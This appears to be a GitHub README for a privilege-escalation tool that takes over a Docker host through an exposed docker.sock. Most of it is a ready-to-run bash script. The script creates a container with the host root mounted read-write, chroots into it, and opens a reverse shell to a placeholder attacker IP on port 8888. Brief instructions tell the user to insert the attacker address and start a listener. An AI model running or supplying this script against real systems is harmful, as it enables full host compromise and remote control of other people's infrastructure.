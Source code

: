 # docker.sock environment takeover (Privilege Escalation)
![](https://github.com/Hritish42/docker.sock-environment-takeover/blob/main/Images/Docker.Socks.png?raw=true)

/var/run/docker.sock could lead to full environment takeover. (Privilege Escalation)

I've written a bash script to automate things written in this article. 

## Proof of Concept
To run this, you have to already have RCE on a container. Even with RCE, most of the time you will not have access to a docker client and installing a docker client might not be possible.

```bash
#!/bin/bash
pay="bash -c 'bash -i >& /dev/tcp/<Attacker-ipaddr>/8888 0>&1'"
payload="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"$pay\\\"\"]"
response=$(curl -s -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$payload, \"Binds\": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create)
revShellContainerID=$(echo "$response" | cut -d'"' -f4)
curl -s -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/$revShellContainerID/start
sleep 1
curl --output - -s --unix-socket /var/run/docker.sock "http://localhost/containers/$revShellContainerID/logs?stderr=1&stdout=1"
````
- Add the attacker ip address to above bash script 
- Start a listener on attacker machine on port 8888. 
- Check the screenshots if you don't understand.

![](https://github.com/Hritish42/docker.sock-environment-takeover/blob/main/Images/poc1.png?raw=true)
![](https://github.com/Hritish42/docker.sock-environment-takeover/blob/main/Images/poc2.png?raw=true)


### References
https://dejandayoff.com/the-danger-of-exposing-docker.sock/

# License
- MIT
